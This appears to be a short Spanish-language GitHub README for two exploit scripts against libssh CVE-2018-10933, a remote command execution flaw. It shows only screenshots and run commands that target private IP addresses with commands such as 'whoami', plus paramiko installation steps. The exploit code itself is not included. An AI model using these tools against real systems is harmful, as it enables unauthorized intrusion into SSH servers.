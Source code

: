 # libssh

Ataque: RCE Ejecucion de comandos remoto

Servicio: libssh 

CVE: CVE-2018-10933 

(Ambos exploits cumplen la misma funcion - ya va en gusto usar el que desee)

# Exploit 1

![exploit-libssh](https://user-images.githubusercontent.com/67207446/235363870-a5953fcf-072e-4c78-92fe-734cd9442c96.png)

python3 script_name.py 192.168.1.10 22 ls
python3 script_name.py 192.168.1.10 22 "hostname -I"

# Exploit 2

![image](https://user-images.githubusercontent.com/67207446/235362690-e590b25f-2a75-48f8-afa9-caf0bf4818d3.png)

## Ejecucion

python3 exploit.py --host 172.16.20.x -p 22 "whoami"

## Instalacion y actualizacion de paramiko

Instalacion:

sudo apt-get update
sudo apt-get install python-paramiko

Actualizacion:

pip install --upgrade paramiko

